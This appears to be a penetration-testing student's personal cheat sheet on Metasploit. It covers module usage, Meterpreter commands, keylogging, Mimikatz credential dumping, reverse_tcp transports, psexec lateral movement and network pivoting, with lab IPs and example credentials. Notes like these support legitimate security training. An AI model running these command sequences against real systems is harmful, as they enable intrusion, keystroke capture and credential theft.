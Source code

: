 ```yaml
---
creation date: December 20th 2022
last modified date: December 20th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Metasploit]]  
___

## Description:  

### Basics
View categories
`show -h`
`show auxiliary`

To search for a module
`search portscan`

Use `info` to get more information
`msf5 > info exploit/windows/http/syncbreeze_bof`

To activate a module
`use auxiliary/scanner/portscan/tcp`
or you can search first and then just pick the number you want
`use 4`
`back` can be used to move out of the module and return to the main msf5 prompt.

To view details of a module
`show options`
`show advanced` to show more options.
`set`  and `unset` can be used to set and remove options.

`show payloads` can be used to retrieve a listing of all payloads that are compatible with the currently selected exploit module.

`check` can be used to verify whether or not the target host and application are vulnerable (will only work on certain modules).

use `run` or `exploit` to start the module once the options are set. `exploit -j` will run the job in the background.

use `jobs` to list background jobs, `jobs -i 0` to interact with a job, and `kill 0` to kill a job.

We can retrieve information regarding successful login  attempts from the database with `creds`.

### Meterpreter Commands

`help` will get a list of modules and commands

Useful commands:
```
sysinfo
getuid
upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec
download c:\\Windows\\system32\\calc.exe /tmp/calc.exe
edit edit.txt
search -f autoexec.bat
execute -f cmd.exe -i -H
```

use `shell` to drop into a system shell. This can be useful when our shells dies, we can return to the meterpreter session with `^c` or `exit`.

`background` can be used to background a session. Use `sessions -l` to list sessions, `session -i 5` to interact, and `session -k 1` to kill a session.

We can use `transport list` to switch protocols after our initial compromise.
To add a new transport protocol (this would be like choosing windows/meterpreter/reverse_tcp payload)
`meterpreter > transport add -t reverse_tcp -l 10.11.0.4 -p 5555`
We have to set up a listener to accept the connection.
```
meterpreter > background
[*] Backgrounding session 5...
msf5 exploit(windows/http/syncbreeze_bof) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > exploit -j
msf5 exploit(multi/handler) > sessions -i 5
meterpreter > transport next
[*] Changing to next transport ...
[*] Sending stage (179779 bytes) to 10.11.0.22
[+] Successfully changed to the next transport, killing current session.
msf5 exploit(multi/handler) > sessions -i 6
```

### Post-Exploitation with Metasploit

^5b4372
Screenshot and keylogger
```
meterpreter > screenshot
Screenshot saved to:/root/.msf4/modules/exploits/windows/http/syncbreeze/beVjSnrB.jpeg


meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes...
ipconfig<CR>
whoami<CR>
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
meterpreter >

```

Executing Powershell Commands
```
meterpreter > load powershell

meterpreter > help powershell
Powershell Commands
===================
 Command Description
 ------- -----------
 powershell_execute Execute a Powershell command string
 powershell_import Import a PS1 script or .NET Assembly DLL
 powershell_shell Create an interactive Powershell prompt

meterpreter > powershell_execute "$PSVersionTable.PSVersion"

```

Loading Mimikatz and dumping system credentials.
```
meterpreter > load kiwi
Loading extension kiwi...
Success.
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > creds_msv
```


### Pivoting

^8f3ca2

^6aac08
We will use route and add to create a path to the alternate internal network subnet we discovered. We will also specify the session ID that this route will apply to:
```
msf5 > route add 192.168.1.0/24 11
[*] Route added
msf5 > route print
```
We can now portscan into this network
```
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.110
RHOSTS => 192.168.1.110
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
PORTS => 445,3389
msf5 auxiliary(scanner/portscan/tcp) > run
```
We can also pivot using the psexec module:
```
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec_psh) > set SMBDomain corp
SMBDomain => corp
msf5 exploit(windows/smb/psexec_psh) > set SMBUser jeff_admin
SMBUser => jeff_admin
msf5 exploit(windows/smb/psexec_psh) > set SMBPass Qwerty09!
SMBPass => Qwerty09!
msf5 exploit(windows/smb/psexec_psh) > set RHOSTS 192.168.1.110
RHOSTS => 192.168.1.110
msf5 exploit(windows/smb/psexec_psh) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/psexec_psh) > set RHOST 192.168.1.110
LHOST => 192.168.1.110
msf5 exploit(windows/smb/psexec_psh) > set LPORT 444
LPORT => 444
msf5 exploit(windows/smb/psexec_psh) > exploit
```
It’s important to note that the added route will only work with established connections, meaning that a new shell. A reverse shell would not be able to find it's way back to the attacking machine.

As an alternative to adding routes manually, we can use the autoroute post-exploitation module, which can set up pivot routes through an existing meterpreter session automatically.

```
msf5 exploit(multi/handler) > use multi/manage/autoroute
msf5 post(multi/manage/autoroute) > show options
msf5 post(multi/manage/autoroute) > set session 4
msf5 post(multi/manage/autoroute) > exploit

```

Setup a socks proxy:
[[SOCKS Proxies#^8b8d22]]

Port forward:
[[Port Forwards#^651985]]



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 20th 2022 (10:33 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
